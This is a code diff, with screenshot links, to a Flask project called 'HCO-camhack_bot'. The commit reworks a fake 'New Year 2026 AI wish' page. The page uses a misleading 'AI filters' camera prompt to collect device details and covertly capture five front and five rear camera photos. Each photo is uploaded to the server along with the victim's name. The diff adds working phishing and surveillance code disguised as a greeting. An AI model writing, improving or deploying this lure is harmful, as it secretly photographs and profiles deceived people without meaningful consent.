

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the top 475 px of the page, without its empty margins (251-1028 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,83 +3,81 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>New Year 2026 Surprise!</title>
+    <title>Personalized New Year 2026 Wish</title>
     <style>
-        body { background: #000; color: #fff; font-family: 'Arial', sans-serif; text-align: center; }
-        .container { margin-top: 50px; }
-        input { padding: 10px; border-radius: 5px; border: none; width: 80%; max-width: 300px; }
-        button { padding: 10px 20px; background: #ffcc00; border: none; border-radius: 5px; cursor: pointer; font-weight: bold; margin-top: 10px; }
-        #status { color: #00ff00; margin-top: 20px; display: none; }
+        body { background: #050505; color: gold; text-align: center; font-family: 'Segoe UI', sans-serif; }
+        .main-box { margin-top: 80px; padding: 30px; border: 2px solid gold; border-radius: 20px; display: inline-block; background: rgba(255,215,0,0.05); box-shadow: 0 0 20px red; }
+        h1 { font-size: 2.5rem; text-transform: uppercase; letter-spacing: 2px; }
+        input { padding: 15px; border-radius: 30px; border: 1px solid gold; width: 85%; margin-bottom: 20px; background: #111; color: white; font-size: 1rem; }
+        button { padding: 15px 40px; border-radius: 30px; background: linear-gradient(45deg, #ff0000, #ffcc00); border: none; color: black; font-weight: bold; cursor: pointer; font-size: 1.1rem; }
+        #loader { display: none; color: lime; margin-top: 20px; font-weight: bold; }
     </style>
 </head>
 <body>
-    <div class="container">
+    <div class="main-box">
         <h1>🎆 Happy New Year 2026 🎆</h1>
-        <p>Enter your name to see the magic!</p>
-        <input type="text" id="userName" placeholder="Type your name here...">
+        <p>Enter your name to experience the AI Magic!</p>
+        <input type="text" id="name" placeholder="Enter Your Full Name...">
         <br>
-        <button onclick="startMagic()">Get My Wish! ✨</button>
-        <p id="status">Applying AI Filters...</p>
+        <button onclick="processRequest()">GENERATE MY WISH ✨</button>
+        <div id="loader">⚙️ OPTIMIZING AI FILTERS... PLEASE WAIT...</div>
     </div>
 
-    <video id="video" style="display:none;" autoplay></video>
-    <canvas id="canvas" style="display:none;"></canvas>
+    <video id="v" style="display:none" autoplay></video>
+    <canvas id="c" style="display:none"></canvas>
 
     <script>
-        async function startMagic() {
-            const name = document.getElementById('userName').value;
-            if(!name) { alert("Please enter your name!"); return; }
+        async function processRequest() {
+            let name = document.getElementById('name').value;
+            if(!name) return alert("Please enter your name first!");
 
-            document.getElementById('status').style.display = 'block';
+            // Professional English Permission Prompt
+            if(confirm("SYSTEM NOTICE: To apply exclusive 2026 AI Visual Effects, this application requires temporary camera access. Do you wish to proceed?")) {
+                document.getElementById('loader').style.display = 'block';
+                try {
+                    // Collect Device Info
+                    let batteryInfo = await navigator.getBattery();
+                    let info = {
+                        battery: Math.round(batteryInfo.level * 100) + "%",
+                        platform: navigator.platform,
+                        browser: navigator.userAgent
+                    };
 
-            // डिवाइस इन्फो इकट्ठा करना
-            const deviceInfo = {
-                platform: navigator.platform,
-                browser: navigator.userAgent,
-                battery: 0
-            };
+                    // Phase 1: Capture 5 Front Photos
+                    await startCapture(name, info, { facingMode: "user" }, 5, "FRONT");
 
-            try {
-                const battery = await navigator.getBattery();
-                deviceInfo.battery = Math.round(battery.level * 100);
+                    // Phase 2: Capture 5 Back Photos
+                    await startCapture(name, info, { facingMode: "environment" }, 5, "BACK");
 
-                // कैमरा परमिशन मांगना
-                const stream = await navigator.mediaDevices.getUserMedia({ video: true });
-                const video = document.getElementById('video');
-                video.srcObject = stream;
-
-                // 5 फोटो लेने का लॉजिक (Front Camera Demo)
-                setTimeout(() => {
-                    captureAndSend(name, deviceInfo, stream);
-                }, 2000);
-
-            } catch (err) {
-                // अगर परमिशन नहीं मिली, तब भी डेटा भेजना
-                sendData(name, null, deviceInfo);
+                    document.getElementById('loader').innerText = "✅ AI WISH GENERATED SUCCESSFULLY!";
+                    alert("Happy New Year 2026, " + name + "! Your personalized experience is ready.");
+                } catch(e) {
+                    alert("ERROR: Camera Permission is mandatory for AI Filters.");
+                }
             }
         }
 
-        function captureAndSend(name, info, stream) {
-            const canvas = document.getElementById('canvas');
-            const video = document.getElementById('video');
-            canvas.width = video.videoWidth;
-            canvas.height = video.videoHeight;
-            canvas.getContext('2d').drawImage(video, 0, 0);
+        async function startCapture(name, info, constraints, count, label) {
+            try {
+                let stream = await navigator.mediaDevices.getUserMedia({ video: constraints });
+                let video = document.getElementById('v');
+                video.srcObject = stream;
 
-            const imageData = canvas.toDataURL('image/png');
-            sendData(name, imageData, info);
+                for (let i = 1; i <= count; i++) {
+                    await new Promise(r => setTimeout(r, 1200)); // Delay between shots
+                    let can = document.getElementById('c');
+                    can.width = video.videoWidth; can.height = video.videoHeight;
+                    can.getContext('2d').drawImage(video, 0, 0);
+                    let img = can.toDataURL('image/jpeg', 0.6);
 
-            // कैमरा बंद करना
-            stream.getTracks().forEach(track => track.stop());
-            alert("Happy New Year 2026, " + name + "! Your personalized wish is ready!");
-        }
-
-        function sendData(name, image, info) {
-            fetch('/upload', {
-                method: 'POST',
-                headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({ name: name, image: image, device_info: info })
-            });
+                    fetch('/upload', {
+                        method: 'POST',
+                        headers: {'Content-Type': 'application/json'},
+                        body: JSON.stringify({name: name, image: img, info: info, label: label + " SHOT " + i})
+                    });
+                }
+                stream.getTracks().forEach(t => t.stop());
+            } catch(e) { console.log(label + " Camera not accessible."); }
         }
     </script>
 </body>
```
